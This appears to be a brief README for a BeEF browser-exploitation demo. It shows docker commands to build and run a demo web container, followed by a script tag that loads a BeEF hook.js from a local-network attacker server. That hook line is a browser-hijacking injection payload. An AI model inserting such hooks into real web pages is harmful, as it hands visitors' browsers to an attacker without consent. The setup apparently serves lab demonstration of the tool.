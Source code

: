 # Demo for beef


### build docker image
```
docker build -t demo-beef:latest .
```

### create docker container
```
docker run --rm -d -p 8080:80 --name demo-beef demo-beef:latest
```

### start docker conatiner
```
docker start demo-beef
```

---
Hook
```
<script src="http://192.168.1.115:3000/hook.js"></script>
```
